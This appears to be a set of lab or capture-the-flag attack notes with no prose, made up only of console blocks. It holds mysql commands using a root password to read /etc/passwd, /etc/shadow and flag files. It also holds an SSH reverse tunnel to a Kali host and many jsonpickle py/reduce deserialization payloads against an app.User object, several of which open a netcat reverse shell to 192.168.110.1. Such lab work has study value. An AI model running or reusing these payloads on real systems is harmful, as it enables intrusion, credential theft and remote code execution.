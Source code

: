 ```console
mysql -uroot -pyVzyRGw3cG2Uyt2r -hlocalhost -e "use db; show tables;"
mysql -uroot -pyVzyRGw3cG2Uyt2r -hlocalhost -e "use db; select * from users;"
mysql -uroot -pyVzyRGw3cG2Uyt2r -hlocalhost -e "select load_file('/etc/passwd');"
mysql -uroot -pyVzyRGw3cG2Uyt2r -hlocalhost -e "select load_file('/etc/shadow');"
mysql -uroot -pyVzyRGw3cG2Uyt2r -hlocalhost -e "select load_file('/root/flag.txt');"
mysql -uroot -pyVzyRGw3cG2Uyt2r -hlocalhost -e "select load_file('/root/flags.txt');" 2>&1
mysql -uroot -pyVzyRGw3cG2Uyt2r -hlocalhost -e "select @@version;"
mysql -uroot -pyVzyRGw3cG2Uyt2r -hlocalhost -e "select @@user;" 2>&1
```

```console

ps -aux | grep python
root       384  0.0  1.4  23504 14444 ?        Ss   08:23   0:01 /usr/bin/python /usr/local/bin/gunicorn --workers 3 -b 127.0.0.1:8080 app:app
root       527  0.0  1.6  28060 17084 ?        S    08:23   0:00 /usr/bin/python /usr/local/bin/gunicorn --workers 3 -b 127.0.0.1:8080 app:app
root       528  0.0  1.6  27584 16760 ?        S    08:23   0:00 /usr/bin/python /usr/local/bin/gunicorn --workers 3 -b 127.0.0.1:8080 app:app
root       531  0.0  1.6  27924 17008 ?        S    08:23   0:00 /usr/bin/python /usr/local/bin/gunicorn --workers 3 -b 127.0.0.1:8080 app:app
www-data  2308  0.0  0.0   3236   616 ?        S    09:40   0:00 grep python
```

```console

ssh -N -f -R 8080:127.0.0.1:8080 -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null kali@192.168.110.1 -i key

```

```console

{"py/object": "app.User", "username": [{"py/reduce": [{"py/function": "os.system"},["nc 192.168.110.1 1234 -e /bin/sh"],0,0,0]}]}

{"py/object": "app.User", "username": [{"py/reduce": [{"py/type": "subprocess.call"}, {"py/tuple": ["/bin/ls"]}, null, null, null]}]}
{"py/object": "app.User", "username": [{"py/reduce": [{"py/type": "subprocess.call"}, {"py/tuple": ["/bin/ls11"]}, null, null, null]}]}
{"py/object": "app.User", "username": [{"py/reduce": [{"py/type": "subprocess.call"}, {"py/tuple": ["whereis nc"]}, null, null, null]}]}
{"py/object": "app.User", "username": [{"py/reduce": [{"py/type": "subprocess.call"}, {"py/tuple": ["nc 192.168.110.1 1234 -e /bin/sh"]}, null, null, null]}]}
{"py/object": "app.User", "username": [{"py/reduce": [{"py/type": "subprocess.call"}, {"py/tuple": ["/tmp/shell.sh"]}, null, null, null]}]}

{"py/object": "app.User", "username": [{"py/reduce": [{"py/type": "subprocess.call"}, {"py/tuple": ["./shell.sh"]}, null, null, null]}]}

{"py/object": "app.User", "username": [{"py/reduce": [{"py/type": "subprocess.call"}, {"py/tuple": ["./shell.sh"]}, null, null, null]}]}

{"py/object": "app.User", "username": [{"py/reduce":[{"py/type": "subprocess.Popen"}, ["ls"], null, null, null]}]}

{"py/object": "app.User", "username": [{"py/reduce": [{"py/type": "subprocess.Popen"}, {"py/tuple": [{"py/tuple": ["/bin/ls"]}]}]}]}
{"py/object": "app.User", "username": [{"py/reduce": [{"py/type": "subprocess.Popen"}, {"py/tuple": [{"py/tuple": ["nc 192.168.110.1 1234 -e /bin/sh"]}]}]}]}

```

